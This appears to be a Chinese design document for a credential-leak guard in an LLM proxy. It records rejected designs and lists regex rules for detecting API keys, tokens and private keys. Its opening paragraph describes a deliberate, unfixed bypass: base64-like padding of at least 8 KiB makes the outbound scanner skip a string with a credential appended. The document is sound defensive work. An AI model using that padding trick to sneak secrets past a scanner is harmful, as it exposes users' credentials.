   ADR-5 步骤 2）：出向扫描把"≥8 KiB 且 ≥98% 字符落在 base64 字符集、不含空白"
   的字符串值整体跳过不做规则匹配，为的是避免逐字节扫描内联图片（数 MB 的
   base64 blob）的开销与误伤。代价是：一段刻意拼接的 ≥8 KiB 无空白字母数字
   文本（例如重复填充字符），只要在结尾附上一条真实凭据，同样会被判定为"像
   二进制"而整体跳过——这是可构造的出向扫描旁路，不是理论风险。不修：VMR 不是
   全功能 DLP 产品（§1.1），对抗这类刻意构造的规避需要的是内容感知型 DLP 的
   工程投入，而不是给这个为控制扫描开销而设的启发式再打一层补丁——补丁换来的
   只是下一个可构造的绕过形状，不会消除这类风险本身。

### 6.3 Backlog（明确延后，不在本方案范围）

1. **Tier 2 的在线用途**：目前永远只审计。是否值得为邮箱/手机号做上下文感知
   处理，留待有真实需求时再评估。
2. **规则集热更新**：规则内置于二进制，升级需换版本。外部规则文件会引入"规则
   文件被篡改"的新攻击面，故不做——但若 CWE 库需要频繁更新，这个取舍要重估。

---

## 附录 A · Tier 1 规则集（现行 `internal/guard.DefaultRules`）

所有模式均隐含左边界断言 `(?:^|[^A-Za-z0-9_+/=-])`（§2.3 结论 2），下表省略
不写。五锚要求字面前缀 ≥4 字节，`openai-legacy-key`/`huggingface-token`/`jwt`
三条是文档化例外——各自用定长主体（48/34 字符）或 JWT 的三段点分结构、以及
全规则集最高的熵门（`openai-legacy-key` 3.8）弥补更短前缀。

**校准结果**（`tools/guard_corpus_scan` 对 63 个文件、63,157 条真实审计记录的
全量扫描，产物见 `internal/guard/testdata/corpus_scan.json`）：11 条 Tier 1
规则中六条命中真实语料，全部集中在测试配置块或文档示例（`aws-access-key` 检出
的 2 个唯一值即 AWS 官方示例与 VMR 测试夹具）；五条零命中。Tier 2 的
`generic-sk-prefix` 命中 14,363 次，33 个唯一值 100% 为已知仓内 fixture/占位符
——严禁在线阻断的判定完全成立。

| 规则名 | 字面前缀 | 模式 | 熵门 |
|---|---|---|---|
| `anthropic-api-key` | `sk-ant-api03-` | `sk-ant-api03-[A-Za-z0-9_-]{93}` | 3.5 |
| `openai-project-key` | `sk-proj-` | `sk-proj-[A-Za-z0-9_-]{74,}` | 3.5 |
| `openai-legacy-key` | `sk-` | `sk-[A-Za-z0-9]{48}` | 3.8 |
| `gcp-api-key` | `AIza` | `AIza[0-9A-Za-z_-]{35}` | 3.5 |
| `aws-access-key` | `AKIA` | `AKIA[0-9A-Z]{16}` | 3.2 |
| `github-pat` | `ghp_` | `ghp_[A-Za-z0-9]{36}` | 3.5 |
| `github-oauth` | `gho_` | `gho_[A-Za-z0-9]{36}` | 3.5 |
| `huggingface-token` | `hf_` | `hf_[A-Za-z0-9]{34}` | 3.5 |
| `slack-bot-token` | `xoxb-` | `xoxb-\d{10,13}-\d{10,13}-[A-Za-z0-9]{24}` | 3.5 |
| `jwt` | `eyJ` | `eyJ[A-Za-z0-9_-]{10,}\.[A-Za-z0-9_-]{10,}\.[A-Za-z0-9_-]{10,}` | 3.5 |
| `private-key-block` | `-----BEGIN` | `-----BEGIN [A-Z ]*PRIVATE KEY-----` | — |

**降级为 Tier 2（仅审计）**：`sk-[A-Za-z0-9_-]{20,}`（泛前缀，`internal/guard.DefaultRules`
的 `generic-sk-prefix`，唯一已实现的 Tier 2 规则）。`generic-api-key`/
`bearer-token`/`email`/`cn-mobile`/`cn-resident-id` 曾在早期草案中一并列为 Tier 2
候选，但本方案给不出具体模式——它们把范围从凭据外带扩展到通用 PII 检测，是
另一个功能轴，未随本方案实现，登记见 `docs/ROADMAP.md` R7。

---

## 附录 B · 已否决 / 已实现后移除的方案（登记理由，防止被重新提出）

| 方案 | 出处 | 否决/移除理由 |
|---|---|---|
| **入向在线 Tool Call 双级闸门 / 三协议熔断帧 / 非流式响应阻断 / opaque 响应阻断**（`internal/guard/toolgate.go`/`frames.go`/`nonstream.go` 与配套的 `config.GuardInbound` 七个字段） | 2026-09-15 提交内首次实现（M4.1–M4.5），2026-09-16 第一性原理复审后整体移除 | 见 ADR-15 三条理由：① 客户端审批门 + 沙箱是更正确、信息量更大的拦截位置；② 两轮独立复核合计发现十余条问题，九条集中在这套机制上（死配置、在线凭据回显停火、预筛确认预算易烧穿、确认窗口小于部分模式跨度、多 choice 旁路）；③ 默认 `audit_only` 且从未真正在生产流量上验证过判定精度，没有可行的放量路径。检测层本身（`InspectToolCall`）保留，仅离线消费。任何"恢复入向在线拦截"的提议先读 K-G15 |
| **`mode: replace`：出向伪名化 + 响应端还原（含 `Pseudonymizer`/`Table`/`RestoreWriter` 与 `restore_scope` 等全套旋钮）** | 初版规范，曾完整实现并经独立复核收敛，2026-09-15 复审后整体移除 | 三条（ADR-6 / K-G1）：① `block` 严格更优——还原路径是解密预言机，作用域门禁只收窄不消除，且 replace 防不了主动中间人；② 其唯一增量价值（"凭据在场时请求仍成功"）是错误激励——真实命中全是事故性粘贴，摩擦即特性；③ 缺陷密度实证——独立复核的全部 S0 都落在这台机器上。任何"恢复伪名化/响应端还原"的提议先读 K-G1 |
| 把护栏接进 `internal/respnorm` | 初版 / 前置文档的 Adapter 层映射 | `archtest` 导入禁令 + 行数预算 + 破坏其独立 fuzz 能力（ADR-1） |
| 字节级尾部悬挂缓冲（7/16 字节）作为跨事件拼接主方案 | Gemini 版 `BoundarySafeRestorer` | 原理性缺陷：匹配目标的两半位于两个独立 JSON 文档的两个字符串值中，中间隔着 SSE 结构字节，原始字节层拼不出 |
| 朴素 Scan-Then-Forward（每 delta 重扫累加缓冲区） | Gemini 版 ADR-3 | O(N²)（64 KiB 参数约 430 MB 扫描量）。该问题随入向 Tool Call 闸门整体移除一并失效（历史记录） |
| 无条件剥离 ZWNJ / ZWJ / LRM / RLM | Gemini 版 `isInvisibleRune` | 破坏波斯语、印地语正常书写与全部 ZWJ emoji 序列（K-G7） |
| 向 `arguments` / `partial_json` 追加注释文本表达阻断 | Gemini 版 §4.6 | 制造 JSON 语法破坏，下游 SDK 抛不可预测的解析异常（该问题随熔断帧整体移除一并失效） |
| 熔断帧以 `data: [DONE]` / `message_stop` 干净收尾 | 两版均有 | 与 `KNOWN_ISSUES` 的"杜绝静默假成功"硬要求冲突（该问题随熔断帧整体移除一并失效） |
| `salt: "${VMR_SECURITY_SALT:-}"` | Gemini 版 | VMR 的 `${}` 展开不支持 `:-`，会原样落盘成字面量，等于全网共享一个公开已知的固定盐（Salt 机制本身已随 K-G19 整体移除，该问题一并失去讨论对象——历史记录） |
| reverse shell 标 CWE-319 | Gemini 版 | 编号错误，应为 CWE-506；CWE 会进离线检测层的判定结果 |
| 硬编码 "Top 500 常用依赖库" 做 typosquatting 比对 | 两版均有 | 易变数据快照嵌进二进制，与 CLAUDE.md「避免固化易变数字」冲突；改为按名字长度分档 |
| 默认 `mode: replace` / `tool_call_guard_mode: circuit_break` | Gemini 版 | 未校准即在线干预是事故源（§2.3）。`inject_system_note: true` 曾是第三项，随 system-note 注入整体移除，不再仅是默认值问题 |
| "Scan-Then-Forward = 100% 防 RCE"、"扫描 <2 μs 已证明"、"Prompt Cache 100% 保持" | Gemini 版 | 三者均为无依据的绝对化表述，且随入向拦截整体移除一并失去讨论对象 |
| 完整 Clean Architecture 四层建模 | Gemini 版 §4.2 | `internal/guard` 是一个受依赖白名单约束的独立包，这个边界已经足够。再引入 entity/use-case/adapter 层次是仪式感，违反 KISS |
| 把 `internal/guard` 注册进 `zeroInternalDepPackages` | Gemini 版 ADR-4 | 与它自身要用 `jsonscan` 自相矛盾。改为依赖白名单 `{jsonscan}`（ADR-1） |
| 入向检测（Rune 分档 / Tool Call 审查）等在线接线后才建基线 | 初版规范的里程碑划分 | 审计日志里一直存着客户端实收的完整响应流，这些基线由离线扫描全部拿到 |
| 把 SSE 流式装配放进 `internal/guard` 以便离线复用 | 讨论过程 | 要么在 guard 里重实现一套 SSE 解析（CLAUDE.md 明令的一整类 bug），要么 import `chatmsg` 破坏依赖白名单。改为：装配归调用方，guard 只吃装配好的 `(工具名, 实参)` |
